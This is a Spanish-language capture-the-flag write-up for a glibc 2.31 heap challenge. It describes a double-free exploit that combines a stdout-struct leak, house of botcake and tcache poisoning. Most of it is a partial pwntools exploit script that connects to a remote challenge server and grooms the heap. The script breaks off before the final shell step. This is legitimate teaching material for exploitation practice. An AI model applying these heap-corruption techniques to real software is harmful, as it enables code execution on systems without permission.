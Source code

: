 Hope es un típico "note" challenge que no tuvo “solves”, El binario usa libc 2.31 con un bug de double free. Al no tener función de "print" o "read" por lo que para poder hacer un lekear sobreescribiendo el struct del stdout, usando un house of botcake, Además de hacer un bruteforce de 1/16 a un nibble debido a que el binario tiene PIE. Con lo anterior podemos hacer un leak y luego un tcache poiton + house of botcake para explotar, esta combinacion de tecnicas la puse ya en un post pasado y la llamen "House of Plastic Cake" por la combinación de tecnicas que usa. El exploit (con algunos comentarios) es el siguiente.

```python
#!/usr/bin/python3
from pwn import *
gs = '''
continue
'''
index = 0
elf = context.binary = ELF('./land')
context.terminal = ['tmux', 'splitw', '-hp', '75']
libc = elf.libc
def start():
    if args.GDB:
        return gdb.debug('./land', gdbscript=gs)
    if args.REMOTE:
        return remote('146.190.208.80', 1234)
    else:
        return process('./a.out')
r = start()
r.timeout = 0.8
#functions
def add(size, data):
    r.sendline(b"1")
    r.sendlineafter(b"target : ", f"{size}".encode())
    r.sendafter(b"your ammo :", data)
    r.recvuntil(b">")
    global index
    index += 1
    return index - 1    
def delete(index):
    r.sendline(b"2")
    r.sendlineafter(b"destroy : ", f"{index}".encode())
    r.recvuntil(b">")
# exploit
#========= exploit here ===================
for i in range(7):
    add(0x98, b"AAAA")
#botcake?
prev = add(0x98, b"AAAA")
victim = add(0x98, b"BBBB")
guard = add(0x18, b"/bin/sh\0")
for i in range(7):
    delete(i)
delete(victim)
delete(prev)
junk = add(0x98, "CCCC") # to avoid the victim chunk  going to the unsorted bin and trigger other mallocs d free mitigation
add(0x98, "FFFF") # same as above to "triple free"
#double free
delete(victim)
#'house of plastic-cake'
#This add the size field and modify the key field to bypass double free restriction
#WE do this so we can "triple free to have a chunk to comeback later on"
#But most important to push a libc address down the heap to have a pointer to corrupt with the editor chunk
c = add(0xb8, p64(0)*19 +p64(0xa1)+p64(0)+p16(0)) 
victim = add(0x98, p64(0)*3 +p64(0x81)+p16(0xa6a0))
```